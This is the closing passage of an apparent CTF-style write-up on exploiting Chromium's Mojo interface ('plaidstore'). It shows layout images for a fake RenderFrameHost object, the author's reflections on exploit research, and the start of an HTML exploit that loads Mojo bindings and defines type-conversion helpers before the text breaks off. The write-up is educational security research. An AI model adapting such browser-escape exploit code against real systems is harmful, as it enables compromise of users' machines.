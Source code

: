 The following picture shows the final memory layout of the fake RFH：

![image-20230410150842728](/image-20230410150842728.png)



![image-20230410150922528](/image-20230410150922528.png)

### Conclusion

During writing this article, I also watched several talks about chromium exploitation. I gradually found that to write a good exploitation, researchers must have a profound understanding of the **specific** target software. Besides, sometimes an awesome exploitation will need some genius and impressive imagination, especially for some large targets. This will cost a large amount of time. 

After a period of thinking , I think that I'm more interested in vulnerabilities detection and exploitation mitigation. Therefore, after having a basic understanding of chromium security, I will try to read more papers to learn more knowledge about these fields.

### Exp

```html
<!DOCTYPE html>
<html>
    <head>
        <style>
            body{
                font-family: monospace;
            }
        </style> 
    </head>
    <body>
        <!--These two lines include the mojo system API and mojo interface API.-->
        <!--With these APIs we can create mojo interfaces and build mojo connections between browser and renderers.-->
        <script src = "../chrome/mojo_js/mojo/public/js/mojo_bindings.js"></script>
        <script src = "../chrome/mojo_js/third_party/blink/public/mojom/plaidstore/plaidstore.mojom.js"></script>

        <script>
            //use the ArrayBuffer to implement the conversion between the u32 and float64
            let Convertion = new ArrayBuffer(0x8);
            let ConvertionInt32 = new Uint32Array(Convertion);
            let ConvertionFloat = new Float64Array(Convertion);
            function U32ToF64(src)
            {
                ConvertionInt32[0] = src[0]; 
                ConvertionInt32[1] = src[1]; 
                return ConvertionFloat[0];
            }
            function F64ToU32(src)
            {
                ConvertionFloat[0] = src; 
                //return a smi array
                return [ConvertionInt32[0],ConvertionInt32[1]];
            } 
            function ljust(src, n, c)
            {
                if(src.length < n)
                {
                    src = c.repeat(n - src.length) + src;
                }
                return src;
            }
            //fill the source string to length n from the higher
```